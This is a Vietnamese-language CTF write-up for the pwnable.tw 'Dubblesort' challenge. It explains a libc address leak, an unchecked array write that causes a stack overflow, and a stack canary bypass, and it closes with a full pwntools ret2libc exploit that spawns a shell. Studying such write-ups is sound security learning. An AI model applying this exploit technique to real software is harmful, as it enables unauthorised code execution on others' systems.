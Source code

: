 # Dubblesort \[200pts\] (pwnable.tw)



> Sort the memory!
>
> `nc chall.pwnable.tw 10101`
>
> [dubblesort](https://github.com/th3-5had0w/writeups/raw/main/dubblesort%5Bpwnable.tw%5D/dubblesort)
>
> [libc.so](https://github.com/th3-5had0w/writeups/raw/main/dubblesort%5Bpwnable.tw%5D/libc_32.so.6)

[Phiên bản libc local (Ubuntu 20.04)](https://github.com/th3-5had0w/writeups/raw/main/dubblesort%5Bpwnable.tw%5D/local_libc.so.6)

## Những đoạn code cần lưu ý

### 1) Leak libc

![pic1](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_1.png)

#### Ở đây chương trình đọc input vào nhưng không chặn chuỗi bằng nullbyte (`\x00`) => Ta có thể nhập các kí tự để hàm printf leak được địa chỉ của libc.

![pic3](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_3.png)

#### Mình đã nhập 8 chữ `a` kèm theo kí tự enter `\x0a`, và như ảnh trên thì có thể thấy địa chỉ chỉ libc rất gần với nơi ta nhập input. (1)
#### Ngoài ra kí tự enter của mình đã ghi đè lên byte nullbyte (`\x00`) của libc, mà printf sẽ in các bytes ra màn hình cho đến khi gặp kí tự nullbyte (`\x00`), vì kí tự enter của mình đã ghi đè lên 1 byte `\x00` của địa chỉ libc nên khi leak được bạn nhớ trừ đi `\x0a` (2)

#### Từ (1) và (2) => Ta có thể leak được libc.

#### Nhưng đây mới chỉ là địa chỉ libc nằm tại segment `.got.plt` đã được map, để tìm địa chỉ libc gốc thì ta phải lấy địa chỉ vừa leak được trừ đi địa chỉ chưa được map.

![pic7](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_7.png)

#### Ở đây address là 0x001eb000 vì mình đang readelf libc local của mình, có thể address ở libc bạn sẽ khác và address ở libc của remote server cũng sẽ khác.

```
địa chỉ libc gốc = địa chỉ libc đã leak - 0x001eb000 - 0x0a
```

### 2) Lỗi tràn bộ nhớ tại đoạn code nhập số lượng số mà ta muốn nhập vào

![pic2](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_2.png)

#### Ở đây v4 chính là con trỏ của v13, chương trình sẽ hỏi ta muốn nhập bao nhiêu số, sau mỗi một số nhập vào thì v4 sẽ tăng lên 1, có nghĩa là `vị trí của con trỏ tăng lên 4` vì kích cỡ của kiểu `int`, nhưng ở đây ta không hề thấy có một hàm hay dòng lệnh nào để kiểm tra => Khi tăng vị trí của con trỏ lên một kích cỡ nhất định (4\*n) thì ta sẽ gặp lỗi buffer overflow!

![pic4](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_4.png)

#### Nhưng ta gặp vấn đề là chương trình này có bật cơ chế `Stack Canary`.

![pic5](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_5.png)

#### Chương trình đọc input các số vào bằng hàm `scanf` nên ta có thể bypass dễ dàng bằng cách nhập các kí tự như `-, +,...` vào ô dữ liệu nơi chứa `Stack Canary`, cụ thể ở đây là ở số thứ 25.

![pic6](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_5.png)

#### Như trên hình thì không hề có cảnh báo `*** stack smashing detected ***`, vậy là ta đã bypass được `Stack Canary`.

### 3) Kết luận

#### Vậy là ta đã leak được libc và bypass được `Stack Canary` để điều khiển con trỏ `RIP`.

#### Đây là chương trình chạy kiến trúc x86 nên theo calling convention của nó ta sẽ truyền vào `RIP` theo thứ tự:

```
[RIP] = địa chỉ của hàm system
[RIP+4] = tùy ý (đây là return pointer của hàm system, sau hàm system thì ta không cần return về đâu nữa vì đã có shell)
[RIP+8] = địa chỉ của chuỗi /bin/sh (đây chính là tham số đầu tiên của hàm system)
```

#### Ta cũng cần lưu ý về cơ chế sort của chương trình để tránh giá trị của canary bị sửa đổi ngoài ý muốn.

#### Nhưng ở đây thì canary, địa chỉ của hàm system và địa chỉ của chuỗi /bin/sh đã được nhập vào theo thứ tự từ nhỏ đến lớn ngay từ đầu.

#### Vậy là ta đã exploit thành công chương trình. Đây là code exploit của mình:
```python
from pwn import *

debug = False

if (debug):
    io = process('./dubblesort')
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    offset = 0x001eb000
else:
    io = remote('chall.pwnable.tw', 10101)
    libc = ELF('libc_32.so.6')
    offset = 0x001b0000

print(io.recv())

# ----- leak libc ở local và ở remote vì phiên bản libc khác nhau -----

if (debug):
    io.sendline(b'aaaaaaaa')
    print('trash: ', io.recv(14))
else:
    io.sendline(b'aaaaaaaaaaaaaaaaaaaaaaaa')
    print('trash: ', io.recv(30))
info = io.recv(4)
print('raw: ', info)
virtual_libc = u32(info)-0xa
print('leaked: ', hex(virtual_libc))
print('trash: ', io.recv())
libc.address = virtual_libc - offset
print('base libc addr: ', hex(libc.address))
print('system: ', hex(libc.sym['system']))
print('bin/sh: ', hex(next(libc.search(b'/bin/sh'))))

# ---------------------------------------------------------------------

io.sendline(b'35')
for i in range(24):
    print(io.recv())
    io.sendline(b'0')

# ----- bypassing stack canary -----

print(io.recv())
io.sendline(b'-')

# ----------------------------------

for i in range(32-25):
    print(io.recv())
    io.sendline(str(libc.sym['system']))

# ----- điều khiển con trỏ RIP theo calling convention của cấu trúc x86 system_address -> return_address -> argument -----

print(io.recv())
print('New RIP value: ', libc.sym['system'])
io.sendline(str(libc.sym['system']))

print(io.recv())
print('Sending /bin/sh: ', next(libc.search(b'/bin/sh')))
io.sendline(str(next(libc.search(b'/bin/sh'))))
print(io.recv())
print('Sending /bin/sh: ', next(libc.search(b'/bin/sh')))
io.sendline(str(next(libc.search(b'/bin/sh'))))

# ------------------------------------------------------------------------------------------------------------------------

print(io.recv())
io.interactive()
```
